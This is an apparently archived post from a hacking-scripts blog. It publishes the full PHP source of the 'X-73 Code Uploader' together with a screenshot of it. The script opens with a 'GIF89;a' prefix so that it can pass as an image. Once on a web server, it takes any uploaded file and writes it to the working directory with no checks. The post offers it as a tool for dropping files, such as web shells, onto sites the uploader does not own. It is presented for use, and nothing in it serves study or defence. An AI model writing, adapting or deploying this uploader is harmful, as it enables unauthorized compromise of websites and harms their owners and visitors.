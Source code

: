```yaml
---
id: 245
title: X-73 Code Uploader
author: admin
layout: post
guid: http://hackingscripts.com/?p=245
permalink: /x-73-code-uploader/
categories:
  - PHP
tags:
  - PHP
  - X-73
---
```

&#8211;==@[&#8211; X-73 CODE UPLOADER &#8211;]==&#8211;

## X-73 Code Uploader Source Code

<pre class="brush: php; title: ; notranslate" title="">GIF89;a
&lt;?php
    $myUpload = new maxUpload(); 
    //$myUpload-&gt;setUploadLocation(getcwd().DIRECTORY_SEPARATOR);
    $myUpload-&gt;uploadFile();
?&gt;
&lt;?php
class maxUpload{
    var $uploadLocation;
    
    /**
     * Constructor to initialize class varaibles
     * The uploadLocation will be set to the actual 
     * working directory
     *
     * @return maxUpload
     */
    function maxUpload(){
        $this-&gt;uploadLocation = getcwd().DIRECTORY_SEPARATOR;
    }

    /**
     * This function sets the directory where to upload the file
     * In case of Windows server use the form: c:\\temp\\
     * In case of Unix server use the form: /tmp/
     *
     * @param String Directory where to store the files
     */
    function setUploadLocation($dir){
        $this-&gt;uploadLocation = $dir;
    }
    
    function showUploadForm($msg='',$error=''){
?&gt;
       &lt;div id="container"&gt;
            &lt;div id="header"&gt;&lt;div id="header_left"&gt;&lt;/div&gt;
            &lt;div id="header_main"&gt;SUL-BAR LINK&lt;div id="header_right"&gt;&lt;/div&gt;&lt;/div&gt;
            &lt;div id="content"&gt;
&lt;?php
if ($msg != ''){
    echo '&lt;p class="msg"&gt;'.$msg.'&lt;/p&gt;';
} else if ($error != ''){
    echo '&lt;p class="emsg"&gt;'.$error.'&lt;/p&gt;';

}
?&gt;
&lt;body bgcolor="#000000"&gt;&lt;center&gt;&lt;div style="background-image:url(''); width="1040" height="710" class="shakeimage" onMouseOver="init(this);rattleimage()" onMouseOut="stoprattle(this);top.focus()" onClick="top.focus()" alt="" border="0"&gt;&lt;br&gt;&lt;div
id="example1"&gt;&lt;/div&gt;&lt;p id="example2"&gt;&lt;font face="Papyrus"; color="red"; size="6"&gt;&lt;br&gt;--==@[-- X-73 CODE UPLOADER --]==--

                &lt;form action="" method="post" enctype="multipart/form-data" &gt;
                     &lt;center&gt;
                         &lt;label&gt;File:
                             &lt;input name="myfile" type="file" size="30" /&gt;
                         &lt;/label&gt;
                         &lt;label&gt;
                             &lt;input type="submit" name="submitBtn" class="sbtn" value="Upload" /&gt;
                         &lt;/label&gt;
                     &lt;/center&gt;
                 &lt;/form&gt;
             &lt;/div&gt;
             &lt;div id="footer"&gt;&lt;a href="http://www.sekedar-online.com" target="_blank"&gt;Sulbar-Link&lt;/a&gt;&lt;/div&gt;
         &lt;/div&gt;
&lt;?php
    }

    function uploadFile(){
        if (!isset($_POST['submitBtn'])){
            $this-&gt;showUploadForm();
        } else {
            $msg = '';
            $error = '';
            
            //Check destination directory
            if (!file_exists($this-&gt;uploadLocation)){
                $error = "The target directory doesn't exists!";
            } else if (!is_writeable($this-&gt;uploadLocation)) {
                $error = "The target directory is not writeable!";
            } else {
                $target_path = $this-&gt;uploadLocation . basename( $_FILES['myfile']['name']);

                if(@move_uploaded_file($_FILES['myfile']['tmp_name'], $target_path)) {
                    $msg = basename( $_FILES['myfile']['name']).
                    " File anda sukses di Upload!";
                } else{
                    $error = "Proses Upload terganggu!";
                }
            }

            $this-&gt;showUploadForm($msg,$error);
        }

    }

}
?&gt;
</pre>

## X-73 Code Uploader screenshot<figure id="attachment_434" style="width: 604px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/02/x-73-code-uploader-1024x351.png" alt="X-73 code uploader screenshot" width="604" height="207" class="size-large wp-image-434" />][1]<figcaption class="wp-caption-text">X-73 code uploader screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/02/x-73-code-uploader.png